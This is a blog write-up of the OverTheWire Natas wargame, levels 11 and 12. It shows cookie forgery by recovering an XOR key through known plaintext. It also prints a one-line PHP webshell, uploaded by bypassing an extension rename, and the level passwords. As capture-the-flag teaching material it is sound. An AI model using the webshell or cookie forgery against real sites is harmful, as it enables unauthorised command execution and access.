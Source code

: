 ```yaml
---
title: OverTheWire - Natas (11-20)
date: 2024-01-09
categories: [OverTheWire, Natas]
tags: [overthewire, natas, web-security]
img_path: /assets/overthewire/natas
published: true
image:
    path: natas.jpg
---
```


---

<center> <a href="https://cspanias.github.io/posts/OverTheWire-Natas-(0-10)">[Level 0-10]</a> </center>

---

## [Level 10 &rarr; 11](https://overthewire.org/wargames/natas/natas11.html)

> Password: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

![](natas11_home.png){: .normal width="60%"}

This level mentions that the "_Cookies are protected with **XOR encryption**_" and gives us the ability to customize the background colour. The source code involves five functions:

> [XOR Encryption Algorithm](https://www.101computing.net/xor-encryption-algorithm/)

1. The following code line defines the variable `defaultdata` which is an array of what we are basically see in the homepage, that is, while background and the inability to see the password:

    ```php
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
    ```

2. The `xor_encrypt` method, as the name suggests, XOR encrypts an input. The key is _censored_, so finding this will be our main goal. What it actually does is declaring a predefined key, assigning the input to the `text` variable, and store the result of the XOR bitwise operation (`text ^ key`) in the `outText` variable:

    > [PHP bitwise operators](https://www.geeksforgeeks.org/php-bitwise-operators/).

    ```php
    function xor_encrypt($in) {
        $key = '<censored>';
        $text = $in;
        $outText = '';

        // Iterate through each character
        for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }

        return $outText;
    }
    ```

3. The `loadData` method takes the **cookie value**, decodes it, and then uses it to set web page values, such as the background color and the visibility of the password. If there is a `data` array from the browser cookie, its value is **base64** decoded, then **XOR encrypted**, and then **JSON** decoded. Then the `bgcocol` is read out of the array and checked against a hex color regex. If the `showpassword` key exists, it is also copied over to the `mydata` value:

    > **XOR encryption** is the same with **XOR decryption** since XOR is reversible with the same mathematical function.

    ```php
    function loadData($def) {
        global $_COOKIE;
        $mydata = $def;
        if(array_key_exists("data", $_COOKIE)) {
        $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
        if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
            if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
            $mydata['showpassword'] = $tempdata['showpassword'];
            $mydata['bgcolor'] = $tempdata['bgcolor'];
            }
        }
        }
        return $mydata;
    }
    ```

4. The `saveData` function base64 encodes, XOR encrypts and JSON encodes the data array and saves it as a cookie in the user's browser:

    ```php
    function saveData($d) {
        setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
    }
    ```

5. The below code lines request from the user to input the `bgcolor` value:

    ```php
    if(array_key_exists("bgcolor",$_REQUEST)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
            $data['bgcolor'] = $_REQUEST['bgcolor'];
        }
    }
    ```

6. The last function, `saveData` is called with the default values loaded in:

    ```php
    $data = loadData($defaultdata);
    saveData($data);
    ```

We can first find our session's cookie value via the Inspector tool, which is `MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY%3D`:

![](natas11_sessionCookie.png)

If we visit [CyberChef](https://gchq.github.io/CyberChef/) and URL decode our cookie we get the following:

![](natas11_urlDecode.png)

From breaking down the function, we know the the cookie value includes `showpassword=no` and our goal is to change it to `showpassword=yes`. Our cookie was generated by `setcookie("data", base64_encode(xor_encrypt(json_encode($d))));`. The problem is that we don't do the key for performing the XOR encryption!

We can use a [PHP compiler](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_compiler&ref=learnhacking.io) and copy paste some of the functions in order to make our own cookie:

![](natas11_phpCompiler.png)

We have the cookie value of `eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0=`, while the XOR encoded cookie is `MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=`. 

The former is generated with the same exact values as the latter: ` showpassword: no, bgColor: #ffffff`. Because of the [associative property of XOR](https://accu.org/journals/overload/20/109/lewin_1915/?ref=learnhacking.io), it does not matter what order we do XOR in, we should get the same answer:
1. plaintext XOR key = ciphertext
2. ciphertext XOR key = plaintext
3. **ciphertext XOR plaintext = key**

We have both the ciphertext (`MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=`) and then plaintext (`eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0=`), so by performing a XOR operation between them we can get the key, and then use it to create a new cookie value and encrypt it:

![](natas11_xorDecoding.png)

This gives us the value `KNHL` as the XOR key. We can confirm this as follows:

![](natas11_xorDecoding1.png)

Now, we can make a new cookie with the JSON object `{"showpassword":"yes","bgcolor":"#ffffff"}`, XOR encrypt it, and then base64 encode it:

![](natas11_cookieFinal.png)

We can finally change our session cookie and get the password for the next level:

![](natas11_pass.png)

## [Level 11 &rarr; 12](https://overthewire.org/wargames/natas/natas12.html)

> Password: YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

![](natas12_home.png){: .normal width="60%"}

This time the web server has an option for uploading an image. This level is focused on [**file upload vulnerabilities**](https://portswigger.net/web-security/file-upload) and how to bypass an extension change. Our goal is to upload a webshell from which we can execute a command to read the next level's password. Let's start by creating the webshell:

```bash
# create the websehll
$ nano webshell.php
# give execute permissions to the file
$ sudo chmod +x webshell.php
# display the file's contents
$ cat webshell.php
<?php echo system($_GET['command']); ?>
# confirm permissions
$ ls -l webshell.php
-rwxr-xr-x 1 kali kali 40 Jan 17 21:26 webshell.php
```

Let's try to upload it:

![](natas12_webshell_upload.png)

Our `webshell.php` was renamed to `jsflwp41if.jpg`! We don't care much about the first part, but we need to find a way to keep the `.php` extension, so we can execute it. We can intercept the `POST` request when uploading the file to see what it looks like:

![](natas12_burp_repeater1.png)

Since the extension change happens on our `POST` request, we can simply manually change it back to `.php` and then send the request again:

![](natas12_burp_repeater2.png)

![](natas12_webshell_upload_php.png)

That seemed to have worked! Upon clicking the link, we get some warnings. This is because our webshell expects a `command` parameter and it is not there yet:

![](natas12_webshell_error.png)

We can now test our webshell by passing any command, such as `id`, and see if we get back any output:

![](natas12_id.png)

Since it worked fine, we can now pass a command for reading the next level's password:

![](natas12_pass.png)

## [Level 11 &rarr; 12](https://overthewire.org/wargames/natas/natas12.html)

> Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

<!--
---

<center> <a href="https://cspanias.github.io/posts/OverTheWire-Natas-(21-34)/">[Level 21-34]</a> </center>

---
-->